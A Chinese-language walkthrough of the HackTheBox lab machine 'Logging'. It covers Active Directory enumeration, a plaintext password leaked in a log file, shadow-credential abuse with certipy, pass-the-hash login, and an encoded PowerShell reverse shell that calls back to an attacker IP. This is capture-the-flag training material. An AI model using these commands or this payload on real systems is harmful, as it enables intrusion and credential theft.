# HTB Season10 - Logging

## 参考链接
[https://github.com/V0idW1re/HTB-Logging-Writeup](https://github.com/V0idW1re/HTB-Logging-Writeup)

[https://github.com/secopssite/HTB/blob/main/Logging/logging.md](https://github.com/secopssite/HTB/blob/main/Logging/logging.md)

[https://thecybersecguru.com/ctf-walkthroughs/beginners-guide-to-conquering-logging-on-hackthebox/](https://thecybersecguru.com/ctf-walkthroughs/beginners-guide-to-conquering-logging-on-hackthebox/)

## 信息收集

初始凭证: `wallace.everette` / `Welcome2026@`

### 端口扫描

```bash
nmap --min-rate 5000 -T4 -p- 10.129.190.53
```



#### 详细扫描

```bash
nmap -sCV -O --min-rate 5000 -T4 -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8530,8531,9389,47001,49664,49665,49666,49667,49671,49686,49687,49688,49689,49702,49720,49746,49776 10.129.190.53
```

```bash
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-19 00:58 -0400
Nmap scan report for 10.129.190.53
Host is up (0.27s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-19 11:58:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
|_ssl-date: 2026-04-19T12:00:20+00:00; +7h00m11s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-19T12:00:21+00:00; +7h00m10s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-19T12:00:20+00:00; +7h00m11s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-19T12:00:21+00:00; +7h00m10s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
8531/tcp  open  ssl/unknown
| ssl-cert: Subject: commonName=DC01.logging.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.logging.htb
| Not valid before: 2026-04-16T15:12:07
|_Not valid after:  2027-04-16T15:12:07
|_ssl-date: 2026-04-19T12:00:21+00:00; +7h00m10s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49720/tcp open  msrpc         Microsoft Windows RPC
49746/tcp open  msrpc         Microsoft Windows RPC
49776/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.98%I=7%D=4/19%Time=69E46106%P=x86_64-pc-linux-gnu%r(DNS-
SF:SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04
SF:_udp\x05local\0\0\x0c\0\x01");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2019 (96%), Microsoft Windows Server 2016 (95%), Microsoft Windows 10 1709 - 21H2 (93%), Microsoft Windows 10 1903 (93%), Microsoft Windows 10 1803 (92%), Microsoft Windows Server 2012 (92%), Windows Server 2019 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows Vista SP1 (92%), Microsoft Windows 10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m10s, deviation: 0s, median: 7h00m09s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-04-19T12:00:09
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.13 seconds
```

### NXC

```bash
nxc smb 10.129.190.53 -u wallace.everette -p Welcome2026@
```

由于启用`signing`以及`SMBv2` **MS17-010**和**NTLM中级攻击**都无法实现



### SMB

#### SMBMAP

```bash
smbmap -d logging.htb -H 10.129.190.53 -u wallace.everette -p Welcome2026@
```



#### LOGS泄露

```bash
# 进入logs共享目录
smbclient -L '\\DC01.logging.htb\logs' -U wallace.everette%Welcome2026@
# 列出目录内容
ls
# 下载所有文件
get filename
```



其中`IdentitySync_Trace_20260219.log`暴露新域名**HR01.logging.htb**以及泄露**SVC_RECOVERY**账户的旧明文密码

该`svc_recovery:Em3rg3ncyPa$$2025`凭证在日志中明确凭证登录失败
根据年度轮换策略,新密码为`Em3rg3ncyPa$$2026`



### BloodHound

同步域时间

```bash
ntpdate DC01.logging.htb
```

收集域内信息交由BloodHound处理

```bash
bloodhound-python -u 'wallace.everette' -p 'Welcome2026@' -d 'logging.htb' -c All --zip --dns-tcp -ns 10.129.190.53
```

#### PROTECTED USERS

- **Protected Users**
    - 不能使用 NTLM 哈希登录（默认只允许 Kerberos）
    - 不能缓存密码用于离线攻击
    - 不能使用 DES/RC4 加密的旧协议
    - 不可通过 Pass-the-Hash（PTH）直接横向移动



#### Generic Write

SVC_RECOVERY->MSA_HEALTH$



## 域渗透

### kerb5.conf

`svc_recovery`位于**PROTECTED USERS**组，只能通过**kerberos**登录,因此需要修改`/etc/krb5.conf`文件来指定KDC获取TGT

```bash
[libdefaults]
    default_realm = LOGGING.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    forwardable = yes
    noaddresses = true

[realms]
    LOGGING.HTB = {
        kdc = 10.129.190.53
        admin_server = 10.129.190.53
    }

[domain_realm]
    .logging.htb = LOGGING.HTB
    logging.htb  = LOGGING.HTB
```

### svc_recovery_TGT

获取`svc_recovery`的TGT

```bash
impacket-getTGT logging.htb/svc_recovery:'Em3rg3ncyPa$$2026' -dc-ip 10.129.190.53
```



### gMSAdump

```bash
# 导入TGT
KRB5CCNAME=svc_recovery.ccache
# 获取msa_health$的hash
certipy-ad shadow auto \
  -u 'svc_recovery@logging.htb' -k --no-pass \
  -account 'msa_health$' \
  -dc-ip 10.129.190.53 \
  -target DC01.logging.htb
```

`msa_health$:603fc24ee01a9409f83c9d1d701485c5`



### msa_health$
```bash
evil-winrm -i 10.129.190.53 -u 'msa_health$' -H '603fc24ee01a9409f83c9d1d701485c5'
```



反弹shell

```powershell
# powershell需要utf-16LE编码
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMQAzACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```



#### 计划任务

`C:\Users\msa_health$\documents`下存在脚本文件

该脚本监控`UpdateChecker Agent`计划任务的状态，记录到日志文件中

```PowerShell
<#
.SYNOPSIS
    Monitors the status of the "UpdateChecker Agent" scheduled task.
    Uses COM interface to avoid CIM/WMI permission issues.
#>

$TaskName = "UpdateChecker Agent"
$LogPath = "C:\Share\Logs\TaskMonitor.log"
$Timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"

try {
    $service = New-Object -ComObject "Schedule.Service"
    $service.Connect()
    $task = $service.GetFolder("\").GetTask($TaskName)

    $State = switch ($task.State) {
        1 { "Disabled" }
        2 { "Queued" }
        3 { "Ready" }
        4 { "Running" }
        5 { "Disabled" }
        6 { "Unknown" }
        default { "Unknown" }
    }

    if ($State -ne "Ready" -and $State -ne "Running") {
        $Message = "[$Timestamp] WARN  - Task [$TaskName] is in an unexpected state: $State"
    }
    else {
        $Message = "[$Timestamp] INFO  - Task [$TaskName] health check: OK (State: $State)"
    }
}
catch {
    $Message = "[$Timestamp] ERROR - Failed to query task [$TaskName]. Exception: $($_.Exception.Message)"
}

Add-Content -Path $LogPath -Value $Message
```

查看这个任务到底在执行什么命令：

```powershell
# 查看计划任务的详细信息
$ts = New-Object -ComObject Schedule.Service
$ts.Connect()
$task = $ts.GetFolder("\").GetTask("UpdateChecker Agent")
$task.Definition | fl *
```

```shell
RegistrationInfo : System.__ComObject
Triggers         : System.__ComObject
Settings         : System.__ComObject
Data             : 
Principal        : System.__ComObject
Actions          : System.__ComObject
XmlText          : <?xml version="1.0" encoding="UTF-16"?>
                   <Task version="1.2" 
                   xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
                     <RegistrationInfo>
                       <Date>2026-04-16T16:39:34.3280175</Date>
                       <Author>logging\Administrator</Author>
                       <URI>\UpdateChecker Agent</URI>
                     </RegistrationInfo>
                     <Triggers>
                       <TimeTrigger>
                         <Repetition>
                           <Interval>PT3M</Interval>
                           <StopAtDurationEnd>false</StopAtDurationEnd>
                         </Repetition>
                         <StartBoundary>2026-04-16T16:38:15</StartBoundary>
                         <Enabled>true</Enabled>
                       </TimeTrigger>
                     </Triggers>
                     <Principals>
                       <Principal id="Author">
                         <UserId>S-1-5-21-4020823815-2796529489-1682170552-2105</UserId>
                         <LogonType>Password</LogonType>
                         <RunLevel>LeastPrivilege</RunLevel>
                       </Principal>
                     </Principals>
                     <Settings>
                       <MultipleInstancesPolicy>Parallel</MultipleInstancesPolicy>
                       <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries>
                       <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                       <AllowHardTerminate>true</AllowHardTerminate>
                       <StartWhenAvailable>false</StartWhenAvailable>
                       <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
                       <IdleSettings>
                         <StopOnIdleEnd>true</StopOnIdleEnd>
                         <RestartOnIdle>false</RestartOnIdle>
                       </IdleSettings>
                       <AllowStartOnDemand>true</AllowStartOnDemand>
                       <Enabled>true</Enabled>
                       <Hidden>false</Hidden>
                       <RunOnlyIfIdle>false</RunOnlyIfIdle>
                       <WakeToRun>false</WakeToRun>
                       <ExecutionTimeLimit>PT72H</ExecutionTimeLimit>
                       <Priority>7</Priority>
                     </Settings>
                     <Actions Context="Author">
                       <Exec>
                         <Command>"C:\Program Files\UpdateMonitor\UpdateMonitor.exe"</Command>
                         <Arguments>500 /scan=3 /autofix=true</Arguments>
                       </Exec>
                     </Actions>
                   </Task>
```

发现该计划任务是以`jaylee.clifton`的身份运行



查看`C:\Program Files\UpdateMonitor\`文件夹下的所有文件：

```PowerShell
Get-ChildItem 'C:\Program Files\UpdateMonitor\'
```



反编译`UpdateMonitor.exe`文件

发现运行日志路径为`C:\ProgramData\UpdateMonitor\Logs\monitor.log`

